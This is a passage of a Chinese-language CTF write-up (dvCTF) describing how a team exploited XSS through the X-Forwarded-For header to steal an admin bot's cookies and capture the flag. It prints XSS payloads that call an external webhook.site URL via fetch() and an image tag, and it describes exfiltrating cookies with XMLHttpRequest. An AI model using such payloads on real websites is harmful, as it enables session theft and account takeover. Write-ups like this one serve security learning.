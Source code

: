 XSS 工作顺利

因为我们有 XSS，我们猜测一定有一个管理员用户，我们可以用我们的漏洞攻击。因此，我们向 admin 发送了与上面相同的请求和以下标题:

```
X-Forwarded-For: <script>fetch("https://webhook.site/968b79da-73da-426b-9a06-37c50cddb45a");</script>
```

有效载荷在我们这边工作，但不幸的是，我们没有收到来自管理员的任何请求。

经过一些思考和尝试不同的管理员名称，我们得出的结论是，这必须是正确的方式，必须有一个管理员用户利用，我们只是做错了一些事情。

在继续之前，我们在 Discord 上给一个 dvCTF 管理员发了消息，询问是否有一个管理员用户，如果有，他是否停机了。管理员验证了一个管理员用户存在并为他工作。

我们尝试的另一个有效载荷显示确实有一个管理员用户。使用下面的有效负载，管理用户 *admin* 从我们的 URL 请求一个图像。唯一的问题是我们不能执行 Javascript 和过滤数据。

```
X-Forwarded-For: <img src="https://webhook.site/968b79da-73da-426b-9a06-37c50cddb45a" />
```

![](img/e8e139a9ad368bddc32186b01e4e311d.png)

使用我们的 URL 作为图像源，我们收到来自用户 admin 的请求

我们尝试了各种有效载荷和想法，但没有成功。最后，我们决定睡一觉，第二天早上再试试。

第二天早上，一位同事通知我们，管理员使用了 PhantomJS，正如你在用户代理中看到的，PhantomJS 不支持*获取*。我们应该尝试一下古老的 XMLHttpRequest……有时候你太累了，以至于不想想显而易见的解决方案。

最后，我们向管理员发送了一个请求，通过 X-Forward-For 头中的 XSS 加载更多的 Javascript 代码。加载的有效负载将用户的 cookies 发送回给我们。于是，我们收到了标志: **dvCTF{xss_l0ve < 3}**

这是对管理员的最后请求

这是我们网址上的有效负载
